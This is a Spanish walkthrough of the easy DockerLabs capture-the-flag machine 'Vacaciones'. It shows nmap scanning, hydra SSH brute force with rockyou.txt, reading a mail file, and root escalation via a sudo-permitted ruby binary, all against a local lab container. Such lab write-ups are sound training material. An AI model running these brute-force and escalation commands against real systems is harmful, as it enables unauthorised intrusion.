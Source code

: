 ```yaml
---
layout: post
title: "Vacaciones"
date: 2024-06-29 12:20:23
category: sample
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Vacaciones </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/vacaciones/host.png){:.margin}

**1\.** Escaneo los puertos y servicios de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/nmap.png){:.margin}

**2\.** En la web visualmente no tenemos nada, pero si vemos la fuente encontramos posibles usuarios.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/80.png){:.margin}
![img](/notas/public/img/dockerlabs/vacaciones/80code.png){:.margin}

**3\.** Haciendo fuerza bruta al ssh.

`echo -e "camilo\njuan" > users.txt`

`hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/hydra.png){:.margin}

**4\.** Accedo por ssh con estas credenciales.

`ssh camilo@172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/sshcamilo.png){:.margin}

**5\.** Busco el dichoso correo que nos dejo juan.

`find / -name mail 2>/dev/null | xargs find`

`cat /var/mail/camilo/correo.txt`

![img](/notas/public/img/dockerlabs/vacaciones/find.png){:.margin}

**6\.** Migro al usuario juan.

`su juan`

![img](/notas/public/img/dockerlabs/vacaciones/sujuan.png){:.margin}

**7\.** Encuentro un binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/vacaciones/sudol.png){:.margin}

**8\.** Escalando privilegios, Busco indicaciones del binario en [gtfobins](https://gtfobins.github.io/gtfobins/ruby/#sudo).

`sudo ruby -e 'exec "/bin/bash"'`

![img](/notas/public/img/dockerlabs/vacaciones/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>